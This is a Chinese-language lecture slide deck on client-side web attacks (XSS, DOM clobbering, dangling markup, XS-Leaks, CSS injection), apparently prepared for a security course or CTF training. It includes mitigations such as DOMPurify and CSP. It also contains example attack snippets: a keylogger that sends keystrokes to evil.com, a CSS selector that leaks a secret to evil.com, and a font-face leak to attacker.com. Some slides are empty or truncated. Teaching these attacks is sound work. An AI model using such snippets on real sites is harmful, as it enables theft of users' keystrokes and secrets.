


<div class="middle center">
<div style="width: 100%">

# Web 专题一：用户侧攻击
 

</div>
</div>

<div style="margin-top: -250px; margin-right: 20px; display: flex; justify-content: flex-end; align-items: center;">

<h3>@5dbwat4</h3>
</div>


<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.0 ？！用户侧攻击！？

</div>
</div>

<!--v-->

## Server-side vs Client-side

<div class="mul-cols small">
<div class="col">

### Server-side attacks

- SQL / NoSQL Injection
- 命令注入 & 代码注入
- SSRF & 文件包含
- 反序列化攻击
- 服务端逻辑漏洞

**拉下服务器中的数据库 / 拿下服务器的`root`权限**

</div>
<div class="col">

### Client-side attacks

- XSS
- CSRF & XS-Leaks
- Clickjacking & Tab nabbing
- Prototype Pollution
- postMessage abuse

**伪造用户身份 / 窃取用户凭据 / 诱导恶意操作**

</div>
</div>

<!--v-->


## Client side

<div class="flow">
  <div class="box">服务器返回<br>HTML / CSS / JS</div>
  <div class="arrow">→</div>
  <div class="box">浏览器解析<br>并创建 DOM</div>
  <div class="arrow">→</div>
  <div class="box">页面代码调用<br>Web API</div>
  <div class="arrow">→</div>
  <div class="box">用户身份下的<br>网络与交互</div>
</div>

- 客户端漏洞通常不“攻破浏览器”
- 它们让浏览器在**错误的信任假设**下正常工作

<!--v-->

## 用户侧攻击

- 我们要假设存在一个"受害者"
    + 在 CTF 题目中往往以 bot(自动脚本) 的形式出现
    + 它会使用这个 Web 应用并执行一些操作
    + 最终目的是让它执行一段我们精心构造的恶意代码
    
- 💀 作为用户,我们每个人都可能是"受害者"...
    + 钓鱼网站
    + yelan\\u202E~喵\\u202D
    + [QQ探针技术](https://github.com/Y5neKO/qq_xml_ip)
    + [打开微信自动下载原神](https://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485359&idx=1&sn=a3dc73eebed17bd60b89a2e1d766b442&poc_token=HL5NZ2ijIcTVAh5jv6L7Bw4qZBN-FV74W3wj8SpM)
    + 或许更多?

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>

<!--v-->

# Victim

<div style="text-align: center;"></div>

<!--v-->

# 思考框架

<div class="flow">
  <div class="box"><strong>Source</strong><br>不可信数据从哪里来？</div>
  <div class="arrow">→</div>
  <div class="box"><strong>Transform</strong><br>经过何种拼接、解析、净化？</div>
  <div class="arrow">→</div>
  <div class="box"><strong>Sink</strong><br>进入了哪种危险能力？</div>
  <div class="arrow">→</div>
  <div class="box"><strong>Impact</strong><br>突破了哪条安全边界？</div>
</div>

<!--v-->

<div class="middle center">
<div style="width: 100%">

# Let's be specific

</div>
</div>

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.1 XSS

cross-site scripting

</div>
</div>

<!--v-->

## XSS

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

跨站脚本（也称为 XSS）是一种 Web 安全漏洞，允许攻击者破坏用户与存在漏洞的应用程序之间的交互。它使攻击者能够绕过同源策略，该策略旨在将不同网站彼此隔离。跨站脚本漏洞通常允许攻击者伪装成受害用户，执行该用户能够执行的任何操作，并访问该用户的任何数据。如果受害用户在应用程序中拥有特权访问权限，那么攻击者可能能够完全控制该应用程序的所有功能和数据。


<!--v-->

## XSS

1. server returns malicious JavaScript to users
2. executes inside a victim's browser

<!--v-->

## Recap: what can a script do

- 读取页面中非 `HttpOnly` 的数据（Cookie、页面内容）
- 调用站点同源 API，响应对脚本可读
- 以当前用户身份执行业务操作（提交表单、发起请求）
- 修改页面 DOM（伪造登录框、安全提示）
- 访问同源存储（localStorage、IndexedDB、Service Worker）
- 将一次注入扩展为持久化传播

<!--v-->

## 分类……


Reflected XSS

```plain
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
```plain
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```
<!--v-->

## 分类……

Stored XSS

```plain
<p>My comment is <script>/* Bad stuff... */</script></p>
```
<!--v-->

## 分类……

DOM-based XSS

```plain
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;

You searched for: 
```

<!--v-->

## Sources：不可信数据入口

<div class="mul-cols small">
<div class="col">

### URL 与页面关系

- `location.href/search/hash`
- `document.referrer`
- `window.name`
- `postMessage` 的 `event.data`

</div>
<div class="col">

### 存储与服务端数据

- API / GraphQL 响应
- `localStorage` / IndexedDB
- 用户资料与富文本
- 第三方脚本返回值

</div>
</div>

<!--v-->

## Sinks

<div class="mul-cols small">
<div class="col">

### HTML 执行入口

- `element.innerHTML` / `outerHTML`
- `document.write()` / `writeln()`
- `insertAdjacentHTML()`
- `DOMParser.parseFromString()`
- `Range.createContextualFragment()`

### 属性 & URL

- `element.src` / `href` （`javascript:`）
- `element.setAttribute('onerror', ...)`
- `form.action`
- `element.style`（CSS `expression` / `-moz-binding`）

</div>
<div class="col">

### JS 执行入口

- `eval()` / `setTimeout(str)` / `setInterval(str)`
- `new Function()`
- `location.href` / `location.assign()`
- `window.open()` / `window.name`
- `import()` / WebAssembly

### 第三方 API

- jQuery `html()` / `append()` 等
- React `dangerouslySetInnerHTML`
- Vue `v-html`
- `postMessage` 接收端

</div>
</div>

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


<!--v-->

## PoC / Exploit

```plain
https://insecure-website.com/status?message=
    <script>alert("XSS")</script>

// 键盘监听器
var keys = "";
document.onkeypress = function(e) {
  keys += e.key;
  if(keys.length > 30) {
    fetch("http://evil.com/keys?data=" + encodeURIComponent(keys));
    keys = "";
  }
}

// exp
./exploit.py example.com
```
<!--v-->

## XSS Labs

How to: 
- https://hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html
- https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass

<!--v-->


<!--v-->


## 真的需要富文本怎么办

```javascript
const clean = DOMPurify.sanitize(dirtyHtml);
preview.innerHTML = clean;
```

<p class="source"><a href="https://github.com/cure53/DOMPurify">DOMPurify</a></p>

<!--v-->


## 真的需要富文本怎么办

CSP

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'
Content-Security-Policy: default-src 'self'; script-src 'self', 'unsafe-inline', 'unsafe-eval'; style-src 'self'
```

- 禁用内联：`'unsafe-inline'`，所有 `<script>` / `<style>` 块和 `onerror` 等事件属性失效
- 禁用 `eval`：`'unsafe-eval'`，阻止 `eval()`、`setTimeout(string)` 等动态执行
- nonce / hash 机制：对合法的内联脚本/样式加 `nonce="random"` 或计算 `sha256-...` 哈希，白名单放行

<!--v-->

## 真的需要富文本怎么办

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/vue/3.5.39/vue.global.js" 
integrity="sha512-f2i2/bYsn6GoYnvHSQg+/lVe4oAg9thXMp1J49eCWOK47jeiUbwiW8FcFP2IkcLlixnyKyDsu+UJaA7t/L+qhw==" 
crossorigin="anonymous" referrerpolicy="no-referrer"></script>
```
```http
Content-Security-Policy: script-src 
'sha512-f2i2/bYsn6GoYnvHSQg+/lVe4oAg9thXMp1J49eCWOK47jeiUbwiW8FcFP2IkcLlixnyKyDsu+UJaA7t/L+qhw=='
```

<!--v-->

## Example



<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.2 DOM Clobbering

当 HTML 元素“冒充”JavaScript 属性

</div>
</div>

<!--v-->


## 什么是 DOM
- DOM (Document Object Model) 是浏览器解析 HTML 文档后形成的一个树状结构
- DOM 中的每个节点都代表 HTML 文档中的一个元素
- JavaScript 可以通过 DOM API 来操作这些节点,例如添加、删除、修改节点等
```JavaScript
const string = "AAA\u202E~喵\u202D:hack成功了";
const target = document.getElementById("target");   // 获取目标元素
for (let i = 0; i < string.length; i++) {
    const span = document.createElement("span");    // 创建一个新的 span 元素
    span.textContent = string.slice(0, i + 1);
    // 将新元素添加到目标元素中
    target.appendChild(span);
    target.appendChild(document.createElement("br"));
}
```
- 那是否有可能通过 DOM 的操作来影响 JavaScript 的执行?

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>

<!--v-->

## DOM Clobbering

- 不同浏览器对 DOM 的处理方式不一定完全相同,接下来的测试均运行在 Chrome 浏览器上
- [named-access-on-the-window-object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)

```html
<h1 id="x"></h1>
<h2 id="x"></h2>
<embed name="e"></embed>
<object name="o"></object>
<form id="f">
    <input type="text" id="i" value="test">
</form>
```

- 既然如此,那么如果我们在一定程度上可控 DOM,就可以进行其他角度的攻击

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>
<!--v-->

## DOM Clobbering

- id 可以直接用 window 访问
- embed, form, img 跟 object 等也可以用 name 访问
- 可以利用 name 或 id 访问 form 的某些特定子元素
    + button,input
- 如果回传的元素很多,会被打包成 HTMLCollection,进而用 name 或 id 访问

```html
<form id="f">
    <input id="aaa"/>
    <button name="bbb"/>
</form>
<div id="ccc" name="c1"/>
<div id="ccc" name="c2"/>
```

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>
<!--v-->

## 意料外的 toString

- 假设我们已经篡改了 JS 中的某个关键变量为我们构造的恶意 DOM 元素,而且这个变量大概率是要加入到计算中的
- HTML 元素与字符串进行拼接时,会调用其 toString 方法
    + 绝大部分 HTML 元素的 toString 方法返回的是一个[object SomeElement]
        - [object SomeElement]与字符串拼接时,结果也是[object SomeElement],无法利用
    + `<a>` 和 `<area>` 的 toString 方法返回的是其 href 属性,是个字符串
        - 这就可以利用了,可以将其 href 属性设置为恶意链接,从而实现 XSS

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>
<!--v-->

## 绕过 XSS 过滤

```javascript
var script = window.document.createElement("script");

var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}

if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}

script.src = loc;
document.head.appendChild(script);
```

<small>Taken from yelan's PPT, [web专题一 - 2025信息安全课程综合实践](https://courses.zjusec.com/2025/slides/web-lec2/#/1/3)</small>


<!--v-->

## Webpack `CVE-2024-43788`

<div class="small">

- 组件：Webpack `AutoPublicPathRuntimeModule`
- 类型：DOM Clobbering Gadget → 可能导致 XSS
- 公告时间：2024-08-27
- GitHub 公告严重度：Medium，CVSS 3.1 为 6.4
- 公告列出的修复版本：Webpack `>= 5.94.0`
- 研究者报告在 Canvas LMS 中发现真实利用场景

</div>

<a href="https://github.com/webpack/webpack/security/advisories/GHSA-4vvj-4cpr-p986">GHSA-4vvj-4cpr-p986 / CVE-2024-43788</a>

<!--v-->

## Webpack `CVE-2024-43788`

当 `output.publicPath` 未设置或为 `auto` 时，生成的运行时代码需要推断当前 bundle 的 URL：

```javascript [1-2|4-5|7]
var scriptUrl;
var document = globalThis.document;

if (document.currentScript)
  scriptUrl = document.currentScript.src;

__webpack_require__.p = directoryOf(scriptUrl);
```

- `__webpack_require__.p` 成为后续异步 chunk 的基础 URL
- 正常假设：`document.currentScript` 是当前 `<script>` 元素
- 这个属性是否一定具有预期类型？

<!--v-->

## Webpack `CVE-2024-43788`

```plain

```

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.3 Dangling Markup

让一个“没闭合”的标记吞掉后续页面

</div>
</div>

<!--v-->

## 什么是 Dangling Markup

当攻击者能注入 HTML，却无法直接执行脚本时，可以尝试插入一个**未闭合的标签或属性**：

```html


## 现代浏览器为什么可能不发请求

The Chrome browser has decided to tackle dangling markup attacks by preventing tags like img from defining URLs containing raw characters such as angle brackets and newlines. This will prevent attacks since the data that would otherwise be captured will generally contain those raw characters, so the attack is blocked.

<!--s-->

<div class="middle center">
<div style="width: 100%">

# Part.4 XS-Leaks

侧信道！

</div>
</div>

<!--v-->

XS-Search is a method used for extracting cross-origin information by leveraging side channel vulnerabilities.

<!--v-->


## 威胁模型

<div class="flow">
  <div class="box">受害者已登录<br><code>victim.example</code></div>
  <div class="arrow">+</div>
  <div class="box">受害者访问<br><code>attacker.invalid</code></div>
  <div class="arrow">→</div>
  <div class="box">攻击页跨站嵌入、<br>导航或打开窗口</div>
  <div class="arrow">→</div>
  <div class="box">观察差异并<br>推断状态</div>
</div>

- 不要求目标页面有 XSS
- 浏览器自动携带的状态（Cookie、Headers 等）
- 页面“有秘密时表现不同”（搜索成功？搜索失败！）
- 逐bit泄露

<!--v-->

```javascript
const image = new Image();
image.onload  = () => console.log("looks like an image");
image.onerror = () => console.log("load/parse failed");
image.src = "https://victim.example/account/avatar";
```

攻击页读不到响应正文，但能收到元素事件。

<!--v-->

## CSS Tricks 


<!--v-->
## 什么是 HTML
- **HTML文档就像一棵树**
```HTML
<html>
<head>
    <title>Title</title>
    <style>
        body { background-color: lightblue; }
        h1 { color: navy; font-size: 24px; }
    </style>
</head>
<body>
    <h1 id="aaa">This is a tag node.</h1>
    <div name="bbb">
        <p>This is also a tag node.</p>
    </div>
</body>
</html>
```

<!--v-->

## 什么是 CSS

- CSS 是一种样式表语言,用于描述 HTML 文档的外观和格式
- 浏览器向服务器发送请求,服务器返回 HTML 文档,浏览器解析 HTML 文档并渲染页面
- 其中 `<style>` 和其他某些标签用于定义 CSS 样式
- HTML 也可以引用外部 CSS 文件
- 如果我们可以控制受害者收到的 HTML 文档中的 CSS 样式,我们能做什么?

<!--v-->


## CSS 示例

- CSS 通过[选择器](https://developer.mozilla.org/zh-CN/docs/Web/CSS/CSS_selectors)来选择 HTML 元素,并应用样式

```css
h1 { color: red;}                       // 元素选择器,选择所有 h1 元素
#myId { font-size: 20px; }              // ID选择器,选择 ID 为 myId 的元素
.myClass { background-color: yellow; }  // 类选择器,选择所有 class 为 myClass 的元素
[type="text"] { border: 1px; }          // 属性选择器,选择所有 type 属性为 text 的元素
                                        // 组合选择器......
p::first-line { font-weight: bold; }    // 伪元素选择器,选择所有 p 元素的第一行
```
- 但是只修改受害者的页面样式似乎是不够的,如何才能与受害者进行交互?

<!--v-->


## CSS Injection

- 通过 CSS 的一些特性可以泄露受害者当前页面的敏感信息

```html
<!-- 以下是受害者 HTML 中的敏感信息 -->
<input name="secret" value="AAA{secret}">
<!-- 以下是你注入的恶意 CSS -->
<style>
    input[name="secret"][value^="A"]{ 
        background-image: url(http://evil.com/?start=A);
    }
</style>
```

- 运用到了布尔盲注的思想
- CSS Injection 的攻击性依赖于 CSS 的功能,而 CSS 的功能是有限的
- CSS Injection 要求我们能够控制受害者收到的 HTML 文档中的 CSS 样式,但这是很难的

<!--v-->

## Other CSS Tricks

- Using the CSS `:visited` selector, it’s possible to apply a different style for URLs that have been visited.

- font-face trick: By defining a custom font using `@font-face`, an attacker can create a font that renders certain characters differently. This can be used to infer information about the content of the page.

<!--v-->

```
<!DOCTYPE html>
<html>
  <head>
    <style>
      @font-face {
        font-family: poc;
        src: url(http://attacker.com/?leak);
        unicode-range: U+0041;
      }

      #poc0 {
        font-family: "poc";
      }
    </style>
  </head>
  <body>
    <object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
  </body>
</html>
```

<!--v-->

## Server-Side Redirects

https://blog.5dbwat4.top/arch/ZJUCTF2025-Writeup-As-Ive-written

<!--v-->

## Timing

https://blog.5dbwat4.top/arch/SEKAICTF-2025-writeup-Notebook-viewer

performance API

If it has not been viewed, then the time will be longer than if it has been viewed.

- performance.now()
- performance.memory (usedJSHeapSize, totalJSHeapSize, jsHeapSizeLimit)
- ...

<!--v-->

```js
async function getNetworkDuration(url) {
    let href = new URL(url).href;
    // Using an image instead of fetch() as some requests had duration = 0
    let image = new Image().src = href;
    // Wait for request to be added to performance.getEntriesByName();
    await new Promise(r => setTimeout(r, 200));
    // Get last added timings
    let res = performance.getEntriesByName(href).pop();
    console.log("Request duration: " + res.duration);
    return res.duration
}

await getNetworkDuration('https://example.org');
```

<!--v-->

<!--s-->


# 谢谢大家

Questions?

- me@5dbwat4.top
- QQ: 1426484228
